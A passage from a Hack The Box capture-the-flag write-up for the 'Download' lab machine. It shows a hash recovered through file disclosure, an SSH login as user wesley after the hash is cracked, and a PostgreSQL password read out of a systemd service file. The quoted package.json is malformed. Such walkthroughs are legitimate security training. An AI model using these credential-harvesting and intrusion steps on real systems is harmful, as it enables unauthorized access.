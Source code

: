 # Logging in as Wesley

After checking the contents of the `package.json` file using the file disclosure it revealed the author of the project is called Wesley.

The script recovered the following hash `f88976c10af66915918945b9679b2bd3`. 

```js
{
  "name": "download.htb",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  },
  "keywords": [],
  "author": "wesley",
  "license": "ISC",
  "dependencies": {
    "@prisma/client": "^4.13.0",
  },
}
```

It was possible to login to SSH as Wesley using the password after cracking the hash.

```
┌─[parrot@parrot]─[~/hackthebox/download]
└──╼ $ssh wesley@download.htb
Warning: Permanently added the ECDSA host key for IP address '10.129.135.10' to the list of known hosts.
wesley@download.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-155-generic x86_64

Last login: Thu Aug  3 08:29:52 2023 from 10.10.14.23
wesley@download:~$ 
```

# Recovering postgres credentials
systemd had a service file which Wesley could read. This service file contained the credentials for the postgres database.

```
wesley@download:~$ cd /etc/systemd/system/
wesley@download:/etc/systemd/system$ cat download-site.service 
[Unit]
Description=Download.HTB Web Application
After=network.target

[Service]
Type=simple
User=www-data
WorkingDirectory=/var/www/app/
ExecStart=/usr/bin/node app.js
Restart=on-failure
Environment=NODE_ENV=production
Environment=DATABASE_URL="postgresql://download:CoconutPineappleWatermelon@localhost:5432/download"

[Install]
WantedBy=multi-user.target
wesley@download:/etc/systemd/system$ 
```

